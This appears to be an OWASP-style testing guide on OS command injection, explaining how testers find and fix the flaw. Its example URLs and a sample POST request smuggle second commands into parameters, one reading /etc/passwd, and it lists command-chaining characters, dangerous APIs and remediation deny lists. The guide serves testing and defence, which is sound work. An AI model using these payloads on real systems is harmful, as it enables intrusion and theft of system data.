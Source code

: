# Testing Guide

## Summary

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

## Test Objectives

-   Identify and assess the command injection points.

## How to Test

When viewing a file in a web application, the filename is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol `|` onto the end of the filename.

Example URL before alteration:

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Example URL modified:

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

This will execute the command `/bin/ls`.

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is URL encoded and decodes to semicolon

Example:

`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### Example

Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up a personal proxy (such as ZAP or Burp Suite), you can obtain a POST HTTP like the following (`http://www.example.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following (`http://www.example.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

If the application doesn’t validate the request, we can obtain the following result:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

In this case, we have successfully performed an OS injection attack.

## Special Characters for Comand Injection

The following special character can be used for command injection such as `|` `;` `&` `$` `>` `<` `'` `!`

-   `cmd1|cmd2` : Uses of `|` will make command 2 to be executed weather command 1 execution is successful or not.
-   `cmd1;cmd2` : Uses of `;` will make command 2 to be executed weather command 1 execution is successful or not.
-   `cmd1||cmd2` : Command 2 will only be executed if command 1 execution fails.
-   `cmd1&&cmd2` : Command 2 will only be executed if command 1 execution succeeds.
-   `$(cmd)` : For example, `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
-   `cmd` : It’s used to execute specific command. For example, `whoami`
-   `>(cmd)`: `>(ls)`
-   `<(cmd)`: `<(ls)`

## Code Review Dangerous API

Be aware of the uses of following API as it may introduce the command injection risks.

### Java

-   `Runtime.exec()`

### C/C++

-   `system`
-   `exec`
-   `ShellExecute`

### Python

-   `exec`
-   `eval`
-   `os.system`
-   `os.popen`
-   `subprocess.popen`
-   `subprocess.call`

### PHP

-   `system`
-   `shell_exec`
-   `exec`
-   `proc_open`
-   `eval`

## Remediation

### Sanitization

The URL and form data needs to be sanitized for invalid characters. A deny list of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. An allow list containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

General deny list to be included for command injection can be `|` `;` `&` `$` `>` `<` `'` `\` `!` `>>` `#`

Escape or filter special characters for windows,   `(` `)` `<` `>` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `^` `~` `!` `.` `"` `%` `@` `/` `\` `:` `+` `,` `` ` `` Escape or filter special characters for Linux, `{` `}` `(` `)` `>` `<` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `$` `–` `#` `~` `!` `.` `"` `%`  `/` `\` `:` `+` `,` `` ` ``

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all this information to test from a gray-box testing point of view.

## Tools

-   OWASP [WebGoat](https://owasp.org/www-project-webgoat/)
-   [Commix](https://github.com/commixproject/commix)

## References

-   [Penetration Testing for Web Applications (Part Two)](https://www.symantec.com/connect/articles/penetration-testing-web-applications-part-two)
-   [OS Commanding](http://projects.webappsec.org/w/page/13246950/OS%20Commanding)
-   [CWE-78: Improper Neutralization of Special Elements used in an OS Command (‘OS Command Injection’)](https://cwe.mitre.org/data/definitions/78.html)
-   [ENV33-C. Do not call system()](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152177)

---

# Test Documentation

Document here every action performed for this test.